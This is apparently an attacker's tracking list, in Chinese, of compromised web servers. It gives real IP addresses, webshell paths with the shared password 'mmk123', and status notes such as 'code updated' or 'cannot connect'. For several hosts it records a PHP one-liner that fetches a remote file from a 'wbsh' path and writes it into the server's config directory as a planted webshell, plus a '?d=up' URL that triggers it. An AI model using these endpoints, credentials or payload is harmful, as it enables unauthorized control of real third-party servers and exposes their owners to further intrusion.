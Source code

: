 http://47.95.0.118/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.95.0.118/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.95.0.118/config/httpd.php?d=up

http://123.56.15.251:36/template/template_init.php |mmk123 连接不上

http://123.57.243.148/template/template_init.php |mmk123 
代码更新：0608 ✅
http://123.57.243.148/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.243.148/config/httpd.php?d=up

http://120.24.236.22/template/template_init.php |mmk123 连接不上

http://47.98.142.4/template/template_init.php |mmk123 连接不上

http://8.138.1.80/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.138.1.80/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.138.1.80/config/httpd.php?d=up

http://123.57.39.70:32/template/template_init.php |mmk123 
代码更新：0608 ✅
http://123.57.39.70:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.39.70:32/config/httpd.php?d=up

http://www.zhishifufei.xyz/static/upload/image/20211005/m1.php |mmk123 |  1.94.24.175 | 连接不上
http://1.94.24.175:88/template/template_init.php |mmk123 
http://193.112.85.153/template/template_init.php |mmk123 |tiquan | Invalid domain
http://82.156.106.212/template/template_init.php |mmk123

http://82.156.247.28/template/template_init.php |mmk123 
代码更新：0608 ✅
http://82.156.247.28/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://82.156.247.28/config/httpd.php?d=up

http://123.57.135.114/template/template_init.php |mmk123 
代码更新：0608 ✅
http://123.57.135.114/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.135.114/config/httpd.php?d=up
